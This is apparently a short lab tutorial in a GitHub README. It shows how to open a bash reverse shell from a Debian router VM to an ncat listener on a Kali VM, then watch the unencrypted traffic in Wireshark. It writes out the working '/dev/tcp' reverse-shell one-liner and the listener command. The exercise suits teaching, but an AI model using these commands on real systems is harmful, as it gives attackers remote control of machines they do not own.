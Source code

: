 # Reverse Shell

Open your Debian Router and your Kali VM.

Create a listener on Kali VM on port 1234:

`ncat -l -p 1234`

On the Debian Router write the following command:

`/bin/bash –i >& /dev/tcp/<ip-address-kali>/1234 0>&1`

To find the ip-address, simply put `ifconfig` in the commandline on Kali.

Put any command on the Debian Router Connection, like: `ls` or `ifconfig`.

Filter with Wireshark on port 1234 with `tcp.port == 1234`, put the commands once again and watch the traffic. You can see the data on Wireshark, it's not encrypted.

To stop the Reverse Shell, go back to the Debian Router, open a new terminal (HOST key + F2), switch to root. To kill the bash use the command `pkill -9 bash`
